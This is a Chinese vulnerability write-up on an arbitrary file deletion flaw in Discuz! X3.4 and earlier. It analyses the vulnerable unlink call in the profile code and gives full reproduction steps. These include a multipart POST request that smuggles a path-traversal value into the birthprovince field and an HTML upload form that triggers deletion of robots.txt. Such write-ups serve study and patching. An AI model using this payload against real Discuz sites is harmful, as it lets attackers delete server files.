 Discuz! X3.4 任意文件删除漏洞
=============================

一、漏洞简介
------------

二、漏洞影响
------------

影响版本：Discuz!x ≤3.4

三、复现过程
------------

### 漏洞分析

Discuz!X的码云已经更新修复了该漏洞

https://gitee.com/ComsenzDiscuz/DiscuzX/commit/7d603a197c2717ef1d7e9ba654cf72aa42d3e574

核心问题在`upload/source/include/spacecp/spacecp_profile.php`

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4任意文件删除漏洞/media/rId25.png)

跟入代码70行

    if(submitcheck('profilesubmit')) {

当提交profilesubmit时进入判断，跟入177行

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4任意文件删除漏洞/media/rId26.png)

我们发现如果满足配置文件中某个formtype的类型为file，我们就可以进入判断逻辑，这里我们尝试把配置输出出来看看

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4任意文件删除漏洞/media/rId27.png)

我们发现formtype字段和条件不符，这里代码的逻辑已经走不进去了

我们接着看这次修复的改动，可以发现228行再次引入语句unlink

    @unlink(getglobal('setting/attachdir').'./profile/'.$space[$key]);

回溯进入条件

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4任意文件删除漏洞/media/rId28.png)

当上传文件并上传成功，即可进入unlink语句

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4任意文件删除漏洞/media/rId29.png)

然后回溯变量`$space[$key]`,不难发现这就是用户的个人设置。

只要找到一个可以控制的变量即可，这里选择了birthprovince。

在设置页面直接提交就可以绕过字段内容的限制了。

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4任意文件删除漏洞/media/rId30.png)

成功实现了任意文件删除

### 漏洞复现

访问`http://your-ip/robots.txt`可见robots.txt是存在的：

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4任意文件删除漏洞/media/rId32.png)

注册用户后，在个人设置页面找到自己的formhash：

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4任意文件删除漏洞/media/rId33.png)

带上自己的Cookie、formhash发送如下数据包：

    POST /home.php?mod=spacecp&ac=profile&op=base HTTP/1.1
    Host: localhost
    Content-Length: 367
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPFvXyxL45f34L12s
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.79 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
    Cookie: [your cookie]
    Connection: close

    ------WebKitFormBoundaryPFvXyxL45f34L12s
    Content-Disposition: form-data; name="formhash"

    [your formhash]
    ------WebKitFormBoundaryPFvXyxL45f34L12s
    Content-Disposition: form-data; name="birthprovince"

    ../../../robots.txt
    ------WebKitFormBoundaryPFvXyxL45f34L12s
    Content-Disposition: form-data; name="profilesubmit"

    1
    ------WebKitFormBoundaryPFvXyxL45f34L12s--

提交成功之后，用户资料修改页面上的出生地就会显示成下图所示的状态：

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4任意文件删除漏洞/media/rId34.png)

说明我们的脏数据已经进入数据库了。

然后，新建一个`upload.html`，代码如下，将其中的`[your-ip]`改成discuz的域名，`[form-hash]`改成你的formhash：

    <body>
        <form action="http://[your-ip]/home.php?mod=spacecp&ac=profile&op=base&profilesubmit=1&formhash=[form-hash]" method="post" enctype="multipart/form-data">
            <input type="file" name="birthprovince" />
            <input type="submit" value="upload" />
        </form>
    </body>

用浏览器打开该页面，上传一个正常图片。此时脏数据应该已被提取出，漏洞已经利用结束。

再次访问`http://your-ip/robots.txt`，发现文件成功被删除：

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4任意文件删除漏洞/media/rId35.png)
